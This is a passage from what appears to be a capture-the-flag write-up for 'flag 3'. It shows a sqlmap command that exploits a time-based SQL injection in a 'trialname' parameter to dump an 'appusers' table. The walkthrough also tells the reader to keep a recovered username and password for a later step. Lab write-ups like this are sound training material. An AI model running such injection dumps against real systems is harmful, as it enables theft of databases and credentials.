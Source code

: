 ![img]({{ '/assets/images/flag3/Untitled 30.png' | relative_url }}){: .center-image }

## Flag

Three tables were found. We’re interested in `appusers` . Let’s dump the the table:

```bash
sqlmap -r flag3sql.r --batch --technique=T -p "trialname" --skip-urlencode -D pharsight-srv-1 -T appusers --dump
```

![img]({{ '/assets/images/flag3/Untitled 31.png' | relative_url }}){: .center-image }

Two entries are returned, one of which is flag 3! We also see a username and password for Nina - add that to your loot, you’ll need that as we move on to flag 4. She sells sea shells by the ~~sea shore~~ Windows.
